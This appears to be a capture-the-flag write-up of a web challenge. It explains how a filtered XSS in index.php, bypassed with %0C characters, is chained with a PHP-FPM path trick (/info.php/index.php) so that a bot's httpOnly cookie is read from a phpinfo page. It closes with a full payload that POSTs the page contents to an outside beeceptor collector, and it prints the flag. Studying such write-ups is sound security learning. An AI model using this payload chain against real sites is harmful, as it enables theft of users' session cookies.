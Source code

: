 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **Flag is in the bot.js cookie with a httponly attribute this mean that JS cannot access the cookie**

  **1-index.php**
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how ?**

  **the main problem is in the Enhanced_Trim function that replace the defined char set with "" so how to bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this dosenot have any value since we cannot use JS to steal the cookie bc the httponly attribute on the cookie**

  **the solution was in the info.php that view the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)

  **when a user vist the phpinfo page it reflect its cookie in response even the HttpOnly ones like this**



  **so now we can make the bot visit the info.php page then take the response and send it to our server right ? no it will not work bc the nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot dosent see the localhost of the challange so it cannot access it)**

  **that soloution was in the last part of the configuration that include and run any file endwith .php so we can it to access the info.php right ?**

  **i found this on hacktricks that made me able to bypass the validation and accss the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we cann access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot vist the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```
`flag -> idek{Ghazy_N3gm_Elbalad} `



  
